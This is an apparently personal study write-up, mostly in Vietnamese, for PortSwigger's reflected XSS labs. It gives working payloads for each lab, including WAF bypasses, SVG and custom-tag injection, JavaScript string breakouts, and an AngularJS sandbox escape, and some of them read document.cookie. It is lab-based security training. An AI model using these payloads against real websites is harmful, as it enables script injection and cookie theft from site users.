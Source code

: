 # XSS

## Cross-Site Scripting Reflected

Cross-Site Scripting Phản Chiếu (XSS) xảy ra khi một ứng dụng nhận dữ liệu từ một yêu cầu HTTP và bao gồm dữ liệu đó trong phản hồi mà không thực hiện việc làm sạch hoặc mã hóa đúng cách, dẫn đến các lỗ hổng bảo mật.

TODO: hoàn thành 3 format ba bài lab đâu
TODO: hoàn thành 3 format ba bài lab đâu
TODO: hoàn thành 3 format ba bài lab đâu
TODO: hoàn thành 3 format ba bài lab đâu
TODO: hoàn thành 3 format ba bài lab đâu

### Lab: Reflected XSS into HTML context with nothing encoded

Thử nhập vào ô tìm kiếm. Bản chất của lỗ hổng XSS là phải có input từ người dùng vì vậy ta kiểm tra những đầu vào có thể nhập hoặc đưa thông tin vào.
![alt text](img/image.png)

`Ctrl + U` để xem mã HTML
![alt text](img/image-1.png)

Input từ người dùng được đưa vào trong thẻ `h1`. Ta có thể truyền vào `script` để kiểm tra lỗ hổng XSS.
**payload** `<script>alert()</script>`
![alt text](img/image-2.png)
✅ SOLVED!

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded

Cũng như bài trên, thử với payload `<script>alert()</script>` rồi xem mã nguồn.
![alt text](img/image-3.png)
Ở đây ta thấy dấu `<`, `>` bị encode thành `&lt`, `&gt`.

```
<input ... value="&lt;script&gt;alert()&lt;/script&gt;">
```

Ta có thể thực hiện chèn `"` cùng với **payload**: `a"onmouseover="alert()`

```
<input ... value="a"onmouseover="alert()">
```

![alt text](img/image-4.png)
✅ SOLVED!

**⚠️Note**:

> Có thể sử dụng các event khác ngoài `onmouseover` như `onclick`, `onmousedown`, ...

### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

Thử với payload `<script>alert()</script>` rồi xem mã nguồn.
![alt text](img/image-5.png)

Ta thấy dấu `<`, `>` vẫn bị encode. Ngoài ra chuỗi payload đó còn được chèn vào trong thẻ `script`. Suy ra không dùng được `>`,`<`. Vậy thì ta sẽ đưa câu lệnh javascript vào trong đó luôn.
**payload**: `';alert();//`. `'` để đóng chuỗi, `//` để comment phần đằng sau tránh làm hỏng syntax.
![alt text](img/image-6.png)
✅ SOLVED!

### Lab: Reflected DOM XSS

Kiểm tra file `searchResult.js`.
![alt text](image-7.png)
-> Tận dụng chèn vào tham số `this.responseText`: `abc/"};alert(1);//`

### Lab: Reflected XSS into HTML context with most tags and attributes blocked

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.
To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

Payload:`<iframe src="https://0a7c0036041b29ba80eb0367007a0096.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='227px'>`

### Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.
To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie.`

Bài này sử dụng custom tag để bypass WAF
`<script>location='https://0ac4004f030ada0181a7e4dd003e0024.web-security-academy.net/?search=%3Cabc+id%3Dx+tabindex%3D1+onfocus%3Dalert(document.cookie)%3E%3C%2Fabc%3E#x'</script>`

### Lab: Reflected XSS with some SVG markup allowed

This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.
To solve the lab, perform a cross-site scripting attack that calls the alert() function.

Payload:`<svg><animatetransform onbegin=alert(document.cookie) /></svg>`

### Lab: Reflected XSS in canonical link tag

This lab reflects user input in a canonical link tag and escapes angle brackets.
To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.
To assist with your exploit, you can assume that the simulated user will press the following key combinations:

```
ALT+SHIFT+X
CTRL+ALT+X
Alt+X
```

Please note that the intended solution to this lab is only possible in Chrome.

Bài này ta sẽ chèn XSS vào trong thẻ `<link>` sử dụng các event như onclick hay gì đó đi kèm với `accesskey` để gọi sự kiện đó.
Payload ở đây sử dụng:`ttps://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`
=> `On Windows: ALT+SHIFT+X` dùng để trigger XSS.

### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.
To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

Payload: `a</script><script>alert(1)</script>`

### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

Payload: `\\';alert(1);//`

### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.

Payload: `${alert()}`

### Lab: Reflected XSS with AngularJS sandbox escape without strings
//TODO Hỏi a Đạt
```js
<script>
    angular.module('labApp', [])
        .controller('vulnCtrl', function($scope, $parse) {
            $scope.query = {};
            var key = 'search';
            $scope.query[key] = '&lt;script&gt;alert()&lt;/script&gt;';
            $scope.value = $parse(key)($scope.query);
        });
</script>

```

`1&toString()`
`1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1`